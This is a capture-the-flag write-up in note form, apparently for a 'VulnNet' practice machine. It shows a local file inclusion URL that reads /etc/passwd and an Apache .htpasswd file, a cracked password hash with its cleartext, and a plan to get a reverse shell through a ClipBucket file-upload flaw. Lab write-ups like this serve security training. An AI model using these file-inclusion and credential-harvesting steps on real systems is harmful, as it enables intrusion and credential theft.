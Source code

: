 vulnNet 1

IP: `10.10.131.193`


*	it's using `GET` req in `/login`

	```
	http://10.10.131.193/login.html?login=admin&password=admin
	```

*	no signup page

*	got 2 js files.


one js file has new parameter;

```js
    , n.o = function(e, t) {
        return Object.prototype.hasOwnProperty.call(e, t)
    }, n.p = "http://vulnnet.thm/index.php?referer=", n(n.s = 0)
({
    0: function(e, t, n) {
```

url: http://vulnnet.thm/index.php?referer=

try different stuff, LFI (local file inclusion) worked.

got /etc/passwd

url: http://vulnnet.thm/index.php?referer=/etc/passwd

```sh
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:111::/run/uuidd:/usr/sbin/nologin
lightdm:x:106:113:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:107:117::/nonexistent:/bin/false
kernoops:x:108:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
pulse:x:109:119:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
avahi:x:110:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
hplip:x:111:7:HPLIP system user,,,:/var/run/hplip:/bin/false
server-management:x:1000:1000:server-management,,,:/home/server-management:/bin/bash
mysql:x:112:123:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
```

tried LFI wordlist to discover more files.

```
/etc/mysql/conf.d/
/etc/apache2/.htpasswd
```

so `.htpasswd` is used to store username-password in plain text, we got:

```
developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
```

password is hashed maybe, so let's `John`


so password is, ig
```
9972761drmfsls
```


js file also has `broadcast.vulnnet.thm` subdomain, added to `/etc/host`

got 401. (username : password needed)


try this password and good to go. got website!

```
developers:9972761drmfsls
```

now we have webapp named `clipbucket` with version 4.

looking into exploits for less than v4


have here **Unauthenticated Arbitrary File Upload** to get reverse shell probably


...












